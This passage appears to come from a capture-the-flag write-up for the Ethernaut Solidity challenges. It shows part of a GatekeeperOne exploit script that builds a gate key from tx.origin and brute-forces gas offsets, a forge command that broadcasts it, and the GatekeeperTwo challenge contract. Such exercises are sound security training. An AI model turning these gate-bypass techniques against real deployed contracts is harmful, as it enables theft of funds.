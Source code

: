 ```javascript

        // uint32(uint64(_gateKey)) == uint16(uint160(tx.origin))
        // uint32(uint64(_gateKey)) != uint64(_gateKey)
        // uint32(uint64(_gateKey)) == uint16(uint64(_gateKey))

        uint16 third = uint16(uint160(tx.origin));
        uint32 two = uint32(third);
        bytes8 one = bytes8(abi.encodePacked(uint32(0xdeadbeef),two));

        bytes8 _gateKey = one;
        for (uint i = 0; i<=500; i++){
            (bool success, ) = address(gateOne).call{gas : (8191 * 4)+i}(abi.encodeWithSignature("enter(bytes8)", _gateKey));
        }
    }
}
```

To run script : 

```bash
$ source .env
$ forge script script/GatekeeperOneSolve.s.sol:GatekeeperOneSolve --rpc-url $RPC_URL --broadcast
```

# 14 Gatekeeper Two

`GatekeeperTwo.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```
